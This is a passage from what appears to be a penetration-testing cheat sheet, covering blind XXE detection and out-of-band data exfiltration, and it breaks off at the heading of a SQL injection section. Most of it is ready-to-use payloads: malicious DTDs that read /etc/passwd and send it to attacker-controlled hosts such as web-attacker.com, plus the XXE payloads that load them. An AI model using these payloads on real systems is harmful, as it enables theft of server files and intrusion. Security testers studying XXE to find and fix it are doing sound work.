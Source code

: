 ### 15.2.1	DETECTION

- Induce SSRF via SimpleHTTPServer, check if traffic occurred.

### 15.2.2	EXPLOITING BLIND XXE TO EXFILTRATE DATA OUT-OF-BAND [14]

- Host malicious DTD (Document Type Definition) on controlled system
- Invoke external malicious DTD from within the in-band XXE payload

#### 15.2.2.1	Option 1 [14]

##### 15.2.2.1.1	ATTACKER SERVER

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

##### 15.2.2.1.2	XXE PAYLOAD

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

#### 15.2.2.2	Option 2 [15]

##### 15.2.2.2.1	ATTACKER SERVER

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```

##### 15.2.2.2.2	XXE PAYLOAD

```
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd"> %xxe; %ext; ]>
<foo><u>
&exfil;
</u></foo>
```

  

# 16	SQL INJECTION

## 16.1	BASICS

### 16.1.1	BASIC INJECTION
